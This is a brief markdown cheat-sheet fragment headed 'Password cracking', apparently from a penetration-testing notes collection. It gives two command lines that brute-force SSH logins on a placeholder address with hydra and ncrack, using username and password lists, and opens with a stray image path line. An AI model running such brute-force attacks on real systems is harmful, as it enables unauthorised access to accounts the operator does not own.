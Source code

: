 # Password cracking
### Cracking SSH Password

```bash
hydra -L <username list> -P <password list> 10.10.10.10 ssh
ncrack -U <usernames list> -P <passwords list> ssh://10.10.10.10
```
